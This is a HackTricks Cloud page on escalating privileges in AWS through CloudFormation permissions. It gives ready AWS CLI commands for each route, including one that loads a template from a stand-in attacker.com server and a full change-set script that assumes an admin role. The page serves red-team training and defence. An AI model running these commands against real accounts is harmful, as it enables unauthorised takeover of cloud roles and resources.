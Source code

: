 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

For more information about cloudformation check:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1 
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## References

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
